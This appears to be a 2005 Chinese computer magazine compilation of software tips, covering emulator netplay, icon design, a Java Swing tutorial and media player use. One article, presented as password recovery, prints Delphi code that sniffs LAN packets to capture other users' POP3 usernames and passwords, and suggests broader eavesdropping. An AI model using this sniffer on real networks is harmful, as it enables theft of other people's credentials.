最后，如果是在一台电脑上联机，只要在本机建立服务器后，输入本机IP地址，然后分别打开两个游戏就可以通讯。注意，单机下通讯要确认菜单项Options→Emulator→Pause when inactive window(选项→模拟→窗口处于非活动状态时暂停游戏)处于未选中状态。

> 小提示
VBALink并不支持互联网通讯，总有点美中不足。如果你偏偏又非要在互联网上玩GBA，那可以使用Rascal Boy Advance(下载地址:http://www.rascalboy.nzone.it/download/rascalboy1285.zip)来代替VBALink。然后下载并安装通讯插件SIO MultiPlayer Plugin(下载地址:http://www.newhua.com/cfan/200507/multiplugin.zip)。使用时将通讯插件解压缩至Rascal Boy Advance所在目录，再选择菜单中的Options→Communication Port→SIO MultiPlayer PlugIn(选项→通讯端口→SIO MultiPlayer PlugIn)，接着在菜单中的File→Properties(文件→属性)中的SIO MultiPlayer PlugIn选项卡中设置好连接方式，其中Server为服务器端，Client为客户端。最后再运行Mplink.exe，按刚才的设置选择服务端或客户端并填好服务器IP(见图5)。完成后点击Connect按钮，这时可以在Console选项卡中查看连接状态并在游戏中进行通讯了。





## 家用机FC篇

FC模拟器就是很多朋友小时候玩的“红白机”，要想联机玩它上面的游戏，可以说非常简单。

第一步：从http://www.newhua.com/cfan/200507/virtuanes.rar下载VirtuaNES模拟器。

第二步：解压缩后运行目录中的VirtuaNES++.exe。选择菜单“Go→打开”并在弹出窗口中打开要联机的游戏。

第三步：选择菜单“Go→开始联机”，在弹出的“网络对战”窗口中选择“服务器”，点击“连接”(见图6)。



第四步：把你的IP和联机所使用的端口告诉你的朋友，即客户端。

第五步：在客户端同样打开“网络对战”窗口，选择“客户端”，并按“IP:联机端口”的格式在“地址”处输入IP地址，如192.168.0.2:10000，最后点击“连接”即可。
(福建 水冰淼)# 一专多能 网文快捕的另类利用

网文快捕(Cyberarticle)是网民上网收集文章的利器，其强大的功能和优良的管理界面深入人心，但网文快捕的功能远非如此，其一些不为人知的功能可以给我们带来更大的方便。

# 实战一：批量导出Foxmail、Outlook Express（以下简称OE）和The Bat!邮件

通常的邮件导出你用什么？虽然邮件客户端软件本身也提供了这些功能，但是大多有每次只能导出一个文件的限制，这对订阅了大量电子杂志的人来说太过难受痛苦。现在，网文快捕给了我们另一个选择。

1.  第一步：打开网文快捕，选择菜单中的“工具→Extract email from Foxmail...”
2.  第二步：在弹出的对话框Microsoft Outlook Express Dbx file name（可能是作者的失误，所有的邮件导出界面都显示为Microsoft Outlook Express）文本框中填写Foxmail的邮件保存路径（见图1）。一般来说，Foxmail的收件箱对应的文件是in.box，发件箱对应的是sent.box。
3.  在The folder of the eml files extracted to文本框中填入转换后邮件的放置地点。一切准备好后点击Start按钮即可。

**小提示**
如果要转换OE的邮件，可选择菜单中的“工具→Extract email from Outlook Express”，然后按照Foxmail的方法进行导出。选择菜单中的“工具→Extract email from The Bat!”可以用同样方法导出The Bat!的邮件。



# 实战二：转换MHT、EML文件为HTML文件

这个是笔者认为非常实用的一个功能，特别是将EML转化为HTML文件的功能。将EML或者MHT文件转化为一般的HTML文件更有助于文件的使用以及文件资源的提取。

1.  第一步：进入软件，选择菜单中的“工具→Convert mht, eml to htm”。
2.  第二步：在弹出的Mime2Html窗口中选择Add files...加入要转换的文件（可批量选取），通过Change path设置好文件输出路径。软件默认的输出路径是文件的当前路径，可以点Change path...来改变文件输出路径。最后点击Start稍等片刻就可以完成转化了（见图2）。



# 实战三：收集Flash

网络上收集Flash的方法可谓是五花八门，现在流行的也就是装一个软件来专门捕获Flash。但还要安装软件实在麻烦，其实我们完全可以直接使用网文快捕中的收集Flash的功能，而不必再安装其他软件。

1.  第一步：打开含有Flash动画的网页，在任意位置右击，选择“使用CyberArticle保存更多内容”。
2.  第二步：在弹出的窗口中选择“所有的flash动画”项（见图3），在弹出的对话框里选择需要下载的Flash动画，选中“把flash动画保存为磁盘文件”项，在下面的文本框中填入保存路径，点击“确定”完成导出。



（重庆 陈禹翔）

# 轻轻松松学做XP风格图标

自从Windows XP出现，Windows中的图标变得越来越漂亮了，这是因为在Windows XP下图标文件可以使用32位色，这其中包括了24位色（1677万色）和8位Alpha通道（透明区域）。而在这之前，图标只能使用8位色彩或4位色彩（图标中只有一种透明状态：完全透明/完全不透明），8位Alpha通道就意味着图标可以有从“0”（完全透明）到“256”（完全不透明）共256级灰度的透明状态。下面，我们就来制作一款XP风格的图标吧。

# 制作漂亮的XP风格图标图片

1.  第一步：打开Photoshop，按Ctrl + N组合键，新建一个96像素×96像素，背景为“透明”的图片。
2.  第二步：用“椭圆选框工具”，按住Shift键，从图片左上角拖动鼠标至接近右下角的位置，这样可以画出一个正圆（见图1）。
3.  第三步：按G，选择“渐变工具”，并设置为由黑至灰的“线性渐变”，然后填充刚刚画好的正圆（见图2）。
4.  第四步：选择菜单中的“图层→图层样式→混合选项”，勾选“投影”，“距离”设置为3，“大小”设置为“2”。然后在窗口左侧勾选“内发光”，在“混合模式”中选择“变暗”，并设置内发光色为“黑色”（见图3）。
5.  第五步：新建“图层2”，在制作好的正圆上部画出一个略小的圆，然后使用白至黑的“线性渐变”，由上至下填充白黑渐变。
6.  第六步：按住Ctrl键在图层面板中点击“图层1”，新建“图层3”，然后选择菜单中的“选择→修改→收缩”，在“收缩量”中输入2，按M键选择“矩形选框工具”，再配合Alt键，将选区的上半部分去除，最后的效果如图4所示。
7.  第七步：用“线性渐变”工具，并设置为白到透明的渐变，拖拽鼠标由下至上填充渐变。接着选择菜单中的“滤镜→模糊→高斯模糊”，并在“半径”中输入“1.5”，点击“确定”。同时设置图层3的不透明度为65%（见图5）。
8.  第八步：经过上面的操作，你XP风格图标已经完成大半，剩下的就是找来一些图片，比如你MM的照片，然后将其中的图片放到制作好的按钮图标上（见图6）。
9.  第九步：在菜单中选择“文件→存储为”，将图片保存为PNG格式，“交错”选择“无”即可。

**小提示**
这里可以使用任何图片，比如QQ中的表情。另外，我们也提供了一些图标文件下载，可以从http://www.newhua.com/cfan/200507/ico.rar下载到1000多种图标元素。

**Just Do It**
制作天蓝色调的XP风格图标图片
我们上面制作的是一款黑色的XP风格图标图片，如果将其中的黑白渐变改为蓝白渐变就可以制作出一款天蓝色调的XP风格图标图片。

# 将图片转换为透明图标

图片已经有了，现在就要将图片转换为图标了。















打开IconWorkshop，选择“文件→打开”，找到刚才制作好的PNG图片。选择“文件→新建→从图像创建图标”，然后在弹出窗口中勾选需要创建图标的类型，建议全部勾选。接着点击“确定”按钮（见图7）。

-   ★ 图标制作完成后，还可以用IconWorkshop替换系统图标：选择菜单中的“编辑→自定义Windows图标”，在弹出的“自定义Windows图标”窗口中，就可以用刚刚制作的图标，修改“开始菜单”、“桌面”及“自定义文件夹”等项目的图标。
-   ★ 如果是想替换某类文件的显示图标，可以打开“我的电脑”，选择菜单中的“工具→文件夹选项”，在“文件类型”标签下选择要修改的文件类型，然后点击“高级→更改图标”按钮，在新弹出窗口中使用“浏览”按钮，选择刚刚制作的ICO文件，就可完成替换了。

至此，你的系统就可以用上漂亮的图标了，另外还要提到一点，如果你用的是Windows 9x/2000是无法使用上面这种图标的。

# 如何使用你的XP图标

制作好的XP的图标，当然不是仅用作桌面图标（右击桌面快捷方式的图标并选择“属性”，接着在“快捷方式”选项卡中单击“更改图标”按钮，在弹出窗口中单击“浏览”按钮并定位到你制作的图标即可）。我们要将它用在一些美化系统的软件中。

# 实例1：在ObjectDock Freeware中自定义图标

ObjectDock Freeware（下载地址：http://nj.onlinedown.net/soft/4712.htm）是一款非常不错的任务条替换软件。

-   第一步：右击ObjectDock Freeware工具栏，选择Dock Setting，点击菜单中的Create→New Shortcut（建立→新的快捷方式）。
-   第二步：在弹出窗口中设置好Title（标题），通过Browse（浏览）按钮，设置好程序的所在位置，最后通过Change Image（修改图标），选择制作好的XP风格图标，就可以使用了（见图8）。



# 实例2：在True Launch Bar中自定义图标

True Launch Bar（下载地址：http://nj.onlinedown.net/soft/21983.htm）是一款非常不错的任务栏增强工具，你可以在2005年第4期《狂飙补药 快速启动栏变Super启动栏》一文中学会如何使用它。True Launch Bar中几乎所有位置都可以换图标，下面我们主要介绍修改快捷按钮图标的方法。

-   第一步：右击需要修改的按钮图标，选择Appearance→Change Icon（外观→改变图标）。
-   第二步：点击Browse→Browse icon file（浏览→浏览图标文件），选择制作好的图标文件即可（见图9）。



# 找回丢失的邮件密码

随着计算机技术的发展，网络已成为生活中不可或缺的工具，随之而来的各种密码也让人头痛不已，如果你的邮箱密码忘记了，该怎么办呢？在局域网中由于采用了广播方式，因此，在某个广播域中监听所有的信息包成为了可能。今年第2期中浙江俞伟明朋友介绍的伪装成POP3服务器的方法，的确另辟蹊径，但是本文单刀直入，将介绍通过监听网络的信息包直接分析出用户的电子邮件账户、密码，以此来找回丢失的密码。

# 1. 程序原理

对于目前很流行的以太网协议，其工作方式是：将要发送的数据包发往连接在一起的所有主机，包中包含着应该接收数据包主机的正确地址，只有与数据包中目标地址一致的那台主机才能接收。但是，当主机工作在监听模式下，只要数据包经过自己，无论数据包中的目标地址是什么，主机都将接收。

```
procedure TForm1.WMSocket(var Msg: TMessage);
const
    BufSize = 65535;
var
    Buf: array [0..BufSize] of Char;
    IPHeader: PIPv4_HDR; // IP头
    IPHeaderLen: Byte; // IP头长度
    TCPHeader: PTCP_HDR; // TCP头
    TCPHeaderLen: Byte; // TCP头长度
    Data: PChar; // 监听到的数据
    Ret: Integer;
begin
    ZeroMemory(@Buf, BufSize);
    // 用recv函数接收数据
    Ret:=recv(s, Buf, BufSize, 0);
    if Ret=SOCKET_ERROR then
    begin
        ShowMessage('recv failed with error '+IntToStr(WSAGetLastError()));
        Exit
    end;
    IPHeader:=PIPV4_HDR(@Buf[0]);
    IPHeaderLen:=((IPHeader.VerLen and $F) * 4);
    TCPHeader:=PTCP_HDR(@Buf[IPHeaderLen]);
    TCPHeaderLen:=(ntohs(TCPHeader.LenFlag) shr 12) * 4;
    Data:=@Buf[IPHeaderLen+TCPHeaderLen]; //DATA中保存了监听到的数据
    // 使用OUTLOOK或FOXMAIL，显示E-MAIL账号、密码
    // 若该IP包中包含"USER"，说明正在进行POP3用户握手验证，以下获取该用户名
    if pos('USER', Data)=1 then
    begin
        // inet_ntoa为WINSOCK2内置函数，IPHeader.DestAddr为IP包中的源地址
        listbox1.Items.Add ('局域网内接受邮件地址: '+inet_ntoa(TInAddr(IPHeader.SrcAddr)));
        // IPHeader.SrcAddr为IP包中的目标地址
        listbox1.Items.Add ('邮件服务器地址: '+inet_ntoa(TInAddr(IPHeader.DestAddr)));
        listbox1.Items.Add ('账号: '+copy(Data, 6, length(Data)-4));
    end;
    // 若该IP包中包含"PASS"，说明正在进行密码验证，以下获取该密码
    if pos('PASS', Data)=1 then
    begin
        listbox1.Items.Add ('密码: '+copy(Data, 6, length(Data)-4));
        listbox1.Items.Add ('-----------------------');
    end;
end;
```

程序中用到的Winsock2单元文件可以在ftp://delphi-jedi.org/api/winsock2.zip下载，完整的文章和源代码可以在http://www.cfan.com.cn/11program/200507/ljgyy.htm找到。

在上面的密码监听程序的基础上稍加修改，比如增加对Data变量的过滤条件，可以使你的监听范围更大，监听到更多的内容，比如跟朋友QQ时，使用inet_ntoa(TInAddr(IPHeader.SrcAddr)), inet_ntoa(TInAddr(IPHeader.DestAddr))即可以获取好友的IP地址；又比如网游截包分析制作游戏外挂等等，都是一样的。需要注意的是，如果要接收局域网中其他计算机的信息，该程序必须在HUB环境中运行或者在网关服务器上运行。若有其他问题，请与我联系，我的电子邮件地址是：xb2000@bentium.net。

# 去除Realsched.exe进程何必舍近求远？

用过Real软件的都知道，无论是RealOne Player， 还是Real Player， 在系统启动时都会自动加载Realsched.exe。即使结束后，下次运行Real软件，还会自动加载。针对这个问题大部分人都会用修改或删除Real软件安装文件夹下的Realsched.exe或者更改注册表的方法来解决。其实大可不必如此麻烦，在Real软件中就有解决办法：以Real Player 10为例，打开该软件，点击“工具→首选项”菜单，打开对话框。在左边窗体中单击“自动服务”选项，然后在右侧窗格中去除“监视文件夹”及“设备”两项的勾选。这样Real软件就会取消自动加载realsched.exe进程的功能。

（江苏 冯徐波）

（江勇峰）

# 你的密码安全吗？

经常有朋友会遇到这个问题，电脑老是反复地感染同一个病毒。Windows的补丁已经全部安装了，病毒也已经被成功清除，但是没过几天杀毒软件就报告又发现了这个病毒。

出现这种问题很可能是由于用户没有给计算机设置复杂、安全的密码，为什么不设置密码或者密码简单就容易感染病毒呢？

# 1. 病毒和密码的关系

目前，有相当多的蠕虫病毒（如高波Worm.agobot、瑞波Worm.Rbot等）都会对计算机超级用户Administrator的密码进行猜解。病毒利用自身带的一个简单的密码字典对要攻击的计算机管理员密码进行匹配。字典内包含诸如“111”、“222”、“12345”、“abc”、“Administrator”这样的密码，一旦你的密码和病毒字典一样，则电脑就会被病毒感染。如果你的电脑本身没有设置密码，那样病毒根本不用去猜测密码，直接就可以对电脑进行破坏。

# 2. 如何判断密码是否简单

我们可以使用瑞星杀毒软件2005版中附带的漏洞扫描工具来检测机器密码是否安全。点击“开始”菜单，选择“程序→瑞星杀毒软件→瑞星工具→瑞星漏洞扫描”。出现“瑞星系统安全漏洞扫描”的对话框后，只勾选“安全设置”一项，然后点击“开始扫描”按钮。

扫描完成后，点击上面的“安全设置”按钮，查看扫描报告。如果扫描报告出现“密码过于简单”的提示，那么“恭喜”你，你的密码需要进行更改了。

# 3. 什么样的密码才算安全

确保密码安全需要做到以下几点：①长度至少有七个字符；②不包含用户名、真实姓名或公司名称、生日等；③不包含完整的字典词汇；④同时包含大小写字母、数字及键盘符号；⑤如果是修改密码，则要与先前设置的密码大不相同。

“J*p2IeO4>F”，这就是一个较为复杂的密码。不过你也可以利用这个规则建立比较好记的密码，比如“The@RAV2005*isSoGood!”就是一个比较健壮的密码，同时包含有大小写字母、数字和特殊符号，即使包含了一些字典词汇，破解起来也是相当困难的。

# 4. 如何给账号创建和修改密码

创建和修改密码的操作非常简单，右键单击“我的电脑”，选择“管理”。在出现的对话框左栏中找到“本地用户和组”，选择“用户”。在窗口右侧找到要更改的账户名称，点击鼠标右键，选择“设置密码”。输入你的新密码，点击“确定”即可。

（瑞星工程师 史瑀）

# 另类杀毒方法

有次同学电脑中了病毒，我去看了一下，是个QQ病毒，由于挺长时间没有上网搜集病毒方面消息了，我对这些病毒的特性也不甚了解。

我先打开“进程管理器”，将几个不太熟悉的程序关闭掉。但刚关掉一个，再去关闭另外一个时，刚才关闭的那个马上又运行了。没办法，我决定从注册表里先把启动项删除后，再重启试试，结果，我刚把那些启动项删除，然后刷新一下注册表，那些启动项又还原了，看来一般的方法是行不通了。上网下载专杀工具后，仍然不能杀掉。我知道这是因为病毒正在运行，所以无法删除。

由于这台电脑只有一个操作系统，也没办法在另一个系统下删除这些病毒，这时怎么办呢？如果大家也遇到这种情况时，我向大家推荐一种方法。

第一步：在“开始→运行”中输入CMD，打开“命令提示符”窗口。

第二步：输入ftype exefile=notepad.exe %1，这句话的意思是将所有的EXE文件用“记事本”打开。这样原来的病毒无法启动了。

第三步：重启电脑，你会看见打开了许多“记事本”。当然，这其中不仅有病毒文件，还有一些原来的系统文件比如输入法程序。

第四步：右击任何文件，选择“打开方式”，然后点击“浏览”，转到Windows\System32下，选择cmd.exe，这样就可以再次打开“命令提示符”窗口。

第五步：运行ftype exefile="%1" %*，将所有的EXE文件关联还原。现在运行杀毒软件或直接改回注册表，就可以杀掉病毒了。

第六步：在每一个“记事本”中，点击菜单中的“文件→另存为”，就可看到了路径以及文件名了。找到病毒文件，手动删除即可。但得小心，必须得确定那是病毒才能删除。建议将这些文件改名并记下，重启后，如果没有病毒作怪，也没有系统问题，再进行删除。

# 小技巧

# Ftype的用法

在Windows中，Ftype命令用来显示及修改不同扩展名文件所关联的打开程序。相当于在注册表编辑器中修改[HKEY_CLASSES_ROOT]项下的部分内容一样。

Ftype的基本使用格式为：Ftype [文件类型]=[打开方式/程序]

比如上例中的ftype exefile=notepad.exe %1，表示将所有文件类型为EXE（exefile表示为EXE类型文件）的文件都通过“记事本”程序打开，后面的%1表示要打开的程序本身（就是双击时的那个程序）。

ftype exefile="%1" %*则表示所有EXE文件本身直接运行（EXE可以直接运行，所以用表示程序本身的%1即可），后面的%*则表示程序命令后带的所有参数（这就是为什么EXE文件可以带参数运行的原因）。

（name）

# ISO的魔法 缩小灯

ISO这种光盘镜像格式想必大家都十分熟悉了，大家从网上下载的所谓的“原版拷贝”基本上都是以这种格式发布的。近日，笔者发现了这种文件的另一个用途——“压缩”。这里指的压缩并不是像WinRAR这样的实际意义上的压缩，详细过程如下。

前几日，笔者从网上下载了一个电子读物，分为上下卷，解压缩后每卷320MB左右。正当笔者心痛得要将拮据的硬盘上其他内容删去来安装这个电子读物时，猛然发现两卷中只有图书库这个文件夹里的内容和其他少数安装配置文件不同，剩下的近300MB（大概是语音引擎和背景音乐等）竟完全一样。

既然如此，完全可以将其中相同内容删除掉一份，需要时再从另一卷剪切过来即可。不过，这方法虽好，但略显麻烦。这时笔者想到了当时刻盘时发现的ISO格式的文件系统。这种文件系统可以将文件内容完全相同的几个文件存储到磁盘的同一个位置，但从目录上看却是不同的文件。这样，当然可以大大地省去那些被重复文件占用的空间了，这种就是UNIX下的文件连接技术。明白了原理后我们说干就干。

第一步：打开UltraISO文件编辑，新建一个光盘，将分别保存着两本电子书的“世界名著”和“世界名著02”文件夹导入。

第二步：选择菜单中的“文件→属性”，勾选“优化文件”项（见图），然后点击“文件→保存”，将这个ISO文件保存。



完成后，你就会看到一个仅有352MB的ISO文件了，这个大小正是去除重复文件后的体积。以后我们想看的时候，只要用任意虚拟光驱打开这个ISO就可以了。

（浙江 linle）

# Swing跟数学之游戏设计（1）

运行。此外，还可以到我的主页http://www.ismyway.com上下载这个游戏的单机版以及手机版进行试玩（见图1）。

谁知道通天的巴比伦塔耗费了多少沙石？又有谁知道罗马的建成经历了多少个日夜？我们惟一知道的是，没有一块块砖石的垒砌，就没有蜿蜒万里的长城；没有巨石和黏土的堆集，就没有亘古不变的金字塔。由此可见，基础知识的准备对于我们学习任何事物都至关重要，那么，就让我们从认识Swing的一些基础功能开始，启动我们建造罗马的伟大工程吧！

# 前言

Java咖啡馆已经开张不少时日了，如果你已经喜欢上了Java这杯咖啡的味道，那么记得常来哦。这一次，我们为大家准备了一大杯香浓的咖啡——将以开发一个“连连看”游戏为蓝本，和大家共同学习Java中Swing的用法，当你细心品味这杯咖啡后，你会发现，不但Java这杯咖啡别有一番风味，而且还学会了专业游戏的开发方法，真是两全其美！

为了让大家先睹为快，下图便是游戏的截图。大家可以通过http://www.cfan.com.cn/11program/200507/kyodai.jar下载到游戏，然后在命令行方式下使用java -jar kyodai.jar来



Java咖啡馆以前介绍过AWT的知识，那么Swing和AWT究竟有什么区别呢？学习Java的人都可能听到或看到过重量级控件和轻量级控件这个字眼，AWT就是我们通常所指的重量级控件，Swing则是轻量级控件。我们都知道Java的口号是“一次编写，到处运行”，这也就要求在我们的程序中，尽量使用纯Java的代码。很不幸的是，AWT依赖与本地平台的接口，因此，在不同的操作系统上，使用AWT制作的界面看起来可能会有些细微区别。Swing则完全不同了，Swing是用纯Java编写的，因此，使用Swing编写的界面能保证在所有平台上有着同样的外观。这里还有一个窍门：在JDK中，为便于区别，所有Swing控件都以大写字母J开头，比如说JButton (AWT中对应的是Button)，这样你就很容易区分Swing控件和AWT控件了。

## Swing初体验

对于想学习Swing编程的朋友，我们特地为大家准备了一些小窍门。首先，下载并阅读代码是极有必要的。由于这是一篇关于Swing的教程，所以，我们只是尽可能讲解一些与Swing有关的内容，与Swing无关的内容一般不会涉及，例如算法部分。其次，受篇幅限制，也不可能在这里将每部分代码都写得完完整整的，所以，大家也需要对照完整代码来看。最后，为了使大家更容易把精力集中在Swing学习上，我们也将游戏开发中所需资源放在下载文件中，大家下载后便能够编译运行，看到执行结果。本期源代码的下载地址是：http://www.cfan.com.cn/11program/200507/kyodaiui.zip。

### 1. 顶层容器

什么是顶层容器？当我们使用Java进行图形编程的时候，图在哪里绘制呢？我们需要一个能够提供图形绘制的容器，这个容器就被称为顶层容器，你也可以把它想象成一个窗口。顶层容器是进行图形编程的基础，一切图形化的东西，都必然包括在顶层容器中。在Swing中，我们有三种可以使用的顶层容器，它们分别是：

- JFrame：用来设计类似于Windows系统中的窗口形式的应用程序。
- JDialog：和JFrame类似，只不过JDialog是用来设计对话框。
- JApplet：用来设计可以在嵌入在网页中的Java小程序。

如果需要使用Swing制作一个窗口类程序，我们的代码看起来应该是这样：

```
import javax.swing.*;

public class KyodaiUI extends JFrame{
    ......}
```

### 2. 控件

控件是构成应用程序界面的基本元素，按钮、文本框、进度条等，这些都是控件。控件（这里我们只讨论可视化控件）又可以分为容器控件和非容器控件。从字面意义上来理解，容器控件就是能包含其他控件的特殊控件，例如，Java中的JPanel控件就属于容器型控件，我们可以在JPanel中放置按钮、文本框等非容器控件，你甚至可以在JPanel中再放置若干个JPanel控件（值得注意的是，顶层容器也是容器型控件，每一个窗口应用程序中有且只能有一个顶层容器控件，换句话说，顶层容器不能包括在其他的控件中）。

Java中的容器控件有很多，除刚才提到的JPanel外，还有JTabbedPane、JScrollPane等，非容器控件有JButton、JLabel、JTextField等。如果你需要向某个容器型的控件中添加控件，你可以使用add(Component comp)方法来实现，如：

```
JPanel panel = new JPanel();
JButton button = new JButton();
panel.add(button);
```

### 3. 布局

什么是布局？布局是Java中用来控制控件排列位置的一种界面管理系统。使用过其他可视化编程开发语言的人在初次接触Java界面设计时，总会感觉到Java界面设计很别扭：居然没有提供所见即所得的设置控件坐标的方法！然而，事实证明，Java本身提供的布局管理系统也一样能够出色地完成我们的需要，而且在跨平台时表现得更有优势。

- BorderLayout：将界面分割为上下左右以及中间一块区域的管理系统，在BorderLayout布局中，最多你只能放5个控件，如果超过5个控件，建议还是选用其他的布局系统吧。
- GridLayout：GridLayout是将用户界面切割为棋盘一样的布局管理系统。如果我们要设计一个类似于Windows中自带的计算器软件，GridLayout无疑是最佳选择。
- FlowLayout：FlowLayout与上述两类布局管理系统不太一样，在FlowLayout中，你不必指定每个控件放在哪，你只需要把控件加入到FlowLayout中，FlowLayout就会根据你添加控件的顺序依次放置控件，如果空间不够，会自动换行。

在对这几个布局管理系统有了基本认识后，我们就一起来进入界面设计吧。在仔细观察了QQ游戏中“连连看”的设定后，我们可以发现，整个界面分为三个区，顶部是系统菜单区，占地面积最大的是用户游戏区，另外还有一个用户交互区，每个区域中都由若干控件组成。

这么多控件，我们从哪开始入手呢？由于容器控件中可以放置其他控件，因此，我们只需要先确定放置的容器控件就可以了。既然已经知道需要使用容器控件的个数，接下来让我们就进入布局管理系统的选择。用GridLayout？似乎有点勉强，用FlowLayout？还有更好的选择吗？对了，我想你一定想到了是BorderLayout吧，如下图2所示。



```
import java.awt.*;
import javax.swing.*;

public class KyodaiUI extends JFrame {
    public KyodaiUI(){
        this.setSize(780, 500); // 将窗体的大小设定为780*500
        this.setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE);
        this.setResizable(false);//窗体不能改变大小
        this.setTitle(“连连看”); //设置标题

        JPanel toolBar = new JPanel();
        toolBar.setBackground(Color.white);
        toolBar.setPreferredSize(new Dimension(780, 48));

        JPanel actionPanel = new JPanel(); //新建JPanel型的控件
        actionPanel.setBackground(Color.yellow); //设置背景色
        actionPanel.setPreferredSize(new Dimension(160, 380)); //设置大小

        JPanel contentPanel = new JPanel();
        contentPanel.setBackground(Color.blue);
        contentPanel.setPreferredSize(new Dimension(620, 380));

        this.getContentPane().add(toolBar, BorderLayout.NORTH);
        this.getContentPane().add(actionPanel, BorderLayout.EAST);
        this.getContentPane().add(contentPanel, BorderLayout.CENTER);
    }

    public static void main(String[] args) throws HeadlessException {
        KyodaiUI kyodaiUI = new KyodaiUI();
        kyodaiUI.show();
    }
}
```

让我们来看看上面这段程序是如何运行的。首先，extends JFrame表明了这是从JFrame中继承过来的，JFrame是最基本的顶层容器控件。实际上，在JDK中，以字母J打头的控件都是Swing控件。然后设置了容器的属性，其中，setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE)是用来告诉Java虚拟机，当用户点击窗体右上角的“关闭”按钮时，关闭该窗口进程。如果不这么做的话，你会发现虽然你可以点击窗口关闭，然而程序却没有退出。在接下来的代码中，我们为顶层容器添加了三个Panel容器。要注意的是，在AWT中，我们可以直接写为add(toolBar, BorderLayout.NORTH)，而在Swing中却一定要写成getContentPane().add(toolBar, BorderLayout.NORTH)，否则程序就会出错。

现在大家可以放在编译运行看看，是不是和我的运行结果一样（见图3）？



动手之前，大家一定要注意的是，界面的设计要先考虑好尺寸，不管是主程序界面的大小还是每个区域的大小，如果没有设计好合适的尺寸，将来改动起来会十分痛苦。

下面是相应的源程序：

### 4. 边框

虽然我们使用了不同前景色来区别不同的区域，然而却没有层次感，加上边框一定会漂亮许多。

在Java中，所有以J打头的Swing控件都可以使用setBorder方法来为自己设置边框。边框有很多种，线型、凸起、凹下、空的，你甚至可以自由组合形成个人风格。所有的Border都必须使用javax.swing.BorderFactory中提供的静态方法来创建，比如：

```
Border border = BorderFactory.createBevelBorder(BevelBorder.LOWERED,
    new Color(45, 92, 162),
    new Color(43, 66, 97),
    new Color(45, 92, 162),
    new Color(84, 123, 200));

现在，我们将toolBar.setBackground(Color.white)改为toolBar.setBorder(border)，立体效果是不是已经出现了？
```

## 实战——写上自己的大名

现在我们已经有了一个能够运行的界面了，虽然它什么也做不了，但是请你别慌，罗马不是一天建成的。

现在让我们在菜单区提供一个“关于”菜单，用来显示程序的信息，难道你不想让别人知道你的大名吗？Swing本身就提供了现成的按钮控件JButton，我们只需要创建一个新的按钮：JButton about = new JButton(“关于”); 这个按钮该怎么放到菜单区而不是别的地方呢？我们可以加入下面的代码：toolBar.add(about); 咦，怎么点按钮没有反应？这是因为你还没有告诉程序点击按钮时要做什么事情呢。要为按钮添加事件响应，首先需要使用about.addActionListener(this)来告诉程序监听按钮按下时的事件，由于ActionListener是一个程序接口，因此，我们在类的申明的地方也得做一点小小的修改：public class KyodaiUI extends JFrame implements ActionListener {...}实现ActionListener接口是为了告诉程序我要进行事件处理了。当然，最后我们得添加响应事件的代码:

```
public void actionPerformed(ActionEvent e){
if(e.getSource() == about){
JOptionPane.showMessageDialog(this, "我的大名",
"关于",
JOptionPane.INFORMATION_MESSAGE);
return;
}
}
```

其中，e.getSource() 表示当前触发事件的控件，由于我们的程序中往往会有多个以上的控件，这些控件都有可能产生事件，所以我们必须使用这个方法来找到产生事情的控件。

## 小结

让我们一起来回顾一下今天所学的内容:首先我们了解了顶层容器，也知道了控件分为容器控件和非容器控件，同时还知道使用边框，最后，我们还小小的处理了一下按钮的事件。

学而时习之，不亦说乎，就让我留点小小的作业，帮助大家巩固一下今天所学的内容:上面我们添加的按钮在菜单栏的中间，并不美观，请大家放到左边或右边试试。

最后向大家提供一些比较好的参考资料:

- Creating a GUI with JFC/Swing
  http://java.sun.com/docs/books/tutorial/uiswing/index.html
- 2D Graphics
  http://java.sun.com/docs/books/tutorial/2d/index.html
- JDK API
  http://java.sun.com/j2se/1.4.2/docs/api/index.html

（武汉 张剑）

## 用好MediaPlayer 休闲娱乐任我行

Windows Media Player(下文简称为WMP)是一款多功能媒体播放机，它可以播放多种流行的文件类型，如:WMV、WMA、ASF、MP3、WAV、AVI、MPEG-1、MPEG-2、MIDI等，安装插件后还可以支持QuickTime电影文件，以及网上较流行的RMVB视频文件。许多在线电影、在线歌曲也采用WMV/WMA格式，如果没有安装WMP的话，就没法在线看电影听歌曲了。幸好，WMP是Windows自带的播放器，系统装好了就可以使用了，不用再着急找第三方播放软件。

### 菜鸟初试身手

#### 实例1:最新才会最酷

虽然Windows自带有Windows Media Player(WMP)，不过版本相对来说比较旧，比如Windows 2000自带的是6.4版，Windows XP自带的是8.0，而现在微软推出的WMP最新版则是10.0了。为了达到最好的视听效果，建议大家都下载安装新版本。

第一步:首先登录到http://www.microsoft.com/windows/windowsmedia/cn/player/download/download.aspx下载最新简体中文版Windows Media Player 10.0(华军网站也提供下载，大家可登录到http://www.newhua.com上搜索一下)。

第二步:双击下载所得的文件(MP10Setup.exe)开始安装，如果你以前为了优化系统而关闭了系统还原功能，则安装过程中会弹出提示框:升级到WMP 10后，将不能再还原到原来的版本。如果不打算再用低版本，可单击“确定”按钮继续安装。

第三步:安装完成后会自动启动WMP，并弹出提示框询问是否搜索计算机中各种媒体文件并加到媒体库中，可以单击“否”按钮先不搜索，进入WMP主界面。

第四步:接下来先演示一下WMP中最一般的播放操作。按Ctrl + O组合键调出打开对话框，单击其左侧的“我的电脑”按钮，然后就像在资源管理器里操作一样，双击收藏有电影或音乐的文件夹进入，再单击选中需要播放的文件(配合Ctrl或Shift键可多选文件)，最后单击“打开”按钮，选中的影音文件将自动加入当前的播放列表中，并开始按顺序播放了(见图1)。



#### 实例2:无所不知的大管家

如果你的硬盘上有成百上千个电影、音乐文件，并且是分散保存在多个分区、多个文件夹中，查找、使用起来就很不方便，这时不妨使用WMP的媒体库功能，帮助我们轻松管理多媒体文件，而不用在资源管理器里翻箱倒柜了。

第一步:启动WMP，按一下Alt键显示出菜单栏，然后单击菜单“工具→搜索媒体文件”命令(快捷键为F3)调出搜索对话框(见图2)。为了便于管理电脑中所有的媒体文件，建议在“搜索位置”下拉列表中选择“本地驱动器，程序文件夹除外”项;如果你能确切地知道所有媒体文件所保存的位置，则可以在“搜索位置”下拉列表中点选相应分区的盘符，再单击“查找范围”右侧的“浏览”按钮，从打开的对话框中指定特定的文件夹位置。



